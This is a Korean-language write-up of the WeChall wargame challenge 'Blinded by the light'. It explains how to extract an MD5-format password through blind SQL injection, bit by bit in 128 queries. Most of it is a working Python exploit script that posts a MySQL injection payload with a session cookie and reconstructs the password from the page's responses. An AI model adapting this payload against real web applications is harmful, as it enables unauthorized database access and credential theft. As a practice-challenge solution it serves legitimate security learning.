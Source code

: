 # [WeChall] Blinded by the light - Writeup

## Blind SQL Injection

md5 해시된 랜덤 패스워드를 128번 이하의 쿼리 전송으로 구해야하는 Blind SQL Injection 문제다.

패스워드는 md5 포맷인 `[0-9a-f]{32}` 꼴로 이루어져 있다.

```
'0' = 0x0 = 0b0000
'1' = 0x1 = 0b0001
'2' = 0x2 = 0b0010
'3' = 0x3 = 0b0011
'4' = 0x4 = 0b0100
'5' = 0x5 = 0b0101
'6' = 0x6 = 0b0110
'7' = 0x7 = 0b0111
'8' = 0x8 = 0b1000
'9' = 0x9 = 0b1001
'a' = 0xA = 0b1010
'b' = 0xB = 0b1011
'c' = 0xC = 0b1100
'd' = 0xD = 0b1101
'e' = 0xE = 0b1110
'f' = 0xF = 0b1111
```

즉, 1글자의 경우의 수는 16이며, 이것을 2진수로 바꾸면 4비트가 되므로, 1글자당 4번씩 총 128번의 쿼리 전송으로 패스워드를 알아낼 수 있다.

(Time Based SQL Injection을 이용하면 글자당 1번의 쿼리 전송으로도 가능하겠지만 느리므로 패스)

``` python
import urllib.parse, urllib.request

SESSION = '**secret**';

def inject(a, b):
	url = 'http://www.wechall.net/challenge/blind_light/index.php'
	post_data = {
		'injection':"'||mid(lpad(conv(mid(password," + str(a + 1) + ",1),16,2),4,0)," + str(b + 1) + ",1)='1",
		'inject':'Inject'
	}
	headers = {
		'Content-Type':'application/x-www-form-urlencoded',
		'Cookie':'WC=' + SESSION
	}

	req = urllib.request.Request(url, urllib.parse.urlencode(post_data).encode('utf-8'), headers)
	res = str(urllib.request.urlopen(req).read())

	if 'Welcome back' in res:
		return '1'
	else:
		return '0'

def main():
	pw = ''
	for a in range(0, 32):

		temp = ''
		for b in range(0, 4):
			temp += inject(a, b)
			print(temp)

		pw += hex(int(temp, 2))[2:]
		print('Password:', pw)

if __name__ == '__main__':
	main()
```